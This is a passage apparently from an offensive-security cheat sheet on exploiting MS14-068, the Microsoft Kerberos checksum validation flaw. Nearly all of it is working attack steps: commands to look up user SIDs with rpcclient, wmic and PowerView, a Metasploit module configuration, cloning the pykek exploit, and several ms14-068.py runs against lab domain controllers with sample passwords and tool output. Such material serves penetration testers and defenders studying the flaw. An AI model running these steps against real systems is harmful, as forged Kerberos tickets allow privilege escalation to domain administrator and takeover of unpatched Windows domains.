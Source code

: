 ### MS14-068 (Microsoft Kerberos Checksum Validation Vulnerability)

This exploit require to know the user SID, you can use `rpcclient` to remotely get it or `wmi` if you have an access on the machine.

```powershell
# remote
rpcclient $> lookupnames john.smith
john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)

# loc
wmic useraccount get name,sid
Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
Guest          S-1-5-21-3415849876-833628785-5197346142-501   
Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
Guest          S-1-5-21-297520375-2634728305-5197346142-501   
krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
lambda         S-1-5-21-297520375-2634728305-5197346142-1110 

# powerview
Convert-NameToSid high-sec-corp.localkrbtgt
S-1-5-21-2941561648-383941485-1389968811-502
```

```bash
Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
```

Generate a ticket with `metasploit` or `pykek`

```powershell
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```powershell
# Alternative download: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek
$ git clone https://github.com/SecWiki/windows-kernel-exploits
$ python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
$ python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
$ python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
```